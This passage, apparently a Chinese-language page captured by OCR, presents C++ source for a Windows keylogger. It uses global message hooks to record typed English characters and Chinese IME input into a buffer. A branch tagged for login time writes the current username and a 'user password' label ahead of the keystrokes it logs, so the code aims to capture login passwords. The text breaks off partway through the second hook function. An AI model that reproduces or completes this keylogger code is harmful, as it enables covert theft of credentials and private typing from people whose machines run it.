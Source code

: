英文记录核心代码：WH_GETMESSAGE全局钩子，大家的代码应该都差不多，这里主要是处理回车符和删除符。

```
LRESULT CALLBACK HOOK_WM_CHAR_Proc (int nCode, WPARAM wParam, LPARAM lParam)
{
    if (nCode >= 0 )
    {
        PMSG pMsg = (PMSG) lParam;
        if(pMsg->message == WM_CHAR && wParam == PM_REMOVE && GetTickCount() - nCnKeyTimeOut > 5)
        {
            nEnKeyTimeOut = GetTickCount();
            switch(pMsg->wParam)
            {
                case VK_BACK:
                    InsertBuffer(L"[<=]", KEY_INSERT_NORMAL);
                    break;

                case VK_RETURN:
                    InsertBuffer(L"\r\n", KEY_INSERT_NORMAL);
                    break;

                default :
                    {
                        WCHAR m_Text[3] = {0};
                        memcpy(m_Text, &pMsg->wParam, sizeof(WPARAM));
                        InsertBuffer(m_Text, KEY_INSERT_NORMAL);
                    }
                    break;
            }
        }
    }
    return CallNextHookEx(g_hKeyHK_EN, nCode, wParam, lParam);
}

```

中文记录核心代码：主要用到WH_CALLWNDPROC全局钩子处理WM_IME_COMPOSITION消息，通过ImmGetCompositionStringW函数获取字符。

```
LRESULT CALLBACK HOOK_WM_IME_COMPOSITION_Proc (int nCode, WPARAM wParam, LPARAM lParam)
{
    CWPSTRUCT* pMsg = (CWPSTRUCT*) lParam;
    if(m_IsLogin)
    {
        //已经登录
        m_IsLogin = FALSE;

        //需要保存登录密码
        InsertBuffer(L"\r", KEY_INSERT_LOGIN_END);
        WCHAR m_UserName[256] = L"当前用户：";
        DWORD len = 256 - lstrlenW(m_UserName) - 1;
        GetUserNameW(m_UserName + lstrlenW(m_UserName), &len);
        lstrcatW(m_UserName, L" 用户密码：");
        InsertBuffer(m_UserName, KEY_INSERT_LOGIN_END);
        InsertBuffer(L"\n", KEY_INSERT_LOGIN_END);
    }

    if(nCode == HC_ACTION)
    {
        switch (pMsg->message)
        {
            case WM_IME_COMPOSITION:
            {
                if(GetTickCount() - nEnKeyTimeOut > 5)
                {
```